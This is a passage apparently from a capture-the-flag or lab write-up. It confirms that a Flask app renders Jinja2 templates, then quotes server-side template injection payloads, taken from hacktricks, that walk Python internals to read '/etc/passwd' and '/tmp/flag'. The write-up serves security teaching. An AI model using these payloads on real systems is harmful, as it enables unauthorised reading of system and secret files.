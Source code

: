 ![Untitled](images/Untitled%2015.png)

Apparently, Flash uses Jinja2 by defect, but let’s check it:

![Untitled](images/Untitled%2016.png)

![Untitled](images/Untitled%2017.png)

```bash
<p>7777777
</p>
```

Seems to be Jinja2.

In the hacktricks article, there are some examples of reading remote files exploiting jinja2:

```bash
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
